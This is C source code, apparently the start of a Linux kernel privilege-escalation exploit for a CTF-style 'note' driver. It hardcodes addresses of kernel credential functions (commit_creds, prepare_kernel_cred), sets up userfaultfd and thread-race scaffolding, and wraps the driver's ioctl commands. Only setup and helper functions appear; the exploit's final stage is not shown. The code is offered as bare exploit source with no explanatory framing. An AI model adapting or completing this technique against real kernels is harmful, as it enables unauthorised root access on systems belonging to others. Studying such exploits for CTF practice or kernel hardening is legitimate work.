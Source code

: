 ```c
#define DEBUG 1
#include "kernel.h"

size_t WORK_FOR_CPU_FN = 0xffffffff8109eb90;
size_t PREPARE_KERNEL_CRED = 0xffffffff810a9ef0;
size_t COMMIT_CREDS = 0xffffffff810a9b40;

char tmp_buf[0x1000];

sem_t add_sem, edit_sem;

struct Note {
    size_t idx;
    size_t size;
    void *content;
};

struct KNote {
    void* ptr;
    size_t size;
};

struct KNote notes[0x10];

pthread_t monitor_thread, add_thread, edit_thread;
char *uffd_buf;

int fd;

void add(int idx, int size, char *content) {
    struct Note note;
    note.idx = idx;
    note.size = size;
    note.content = content;

    ioctl(fd, 0x100, &note);
}

void delete(int idx) {
    struct Note note;
    note.idx = idx;
    ioctl(fd, 0x200, &note);
}

void edit(int idx, int size, char *content) {
    struct Note note;
    note.idx = idx;
    note.size = size;
    note.content = content;

    ioctl(fd, 0x300, &note);
}

void gift(void *buf) {
    struct Note note = {
        .content = buf
    };
    ioctl(fd, 100, &note);
}

void note_read(int idx, void *buf) {
    read(fd, buf, idx);
}
```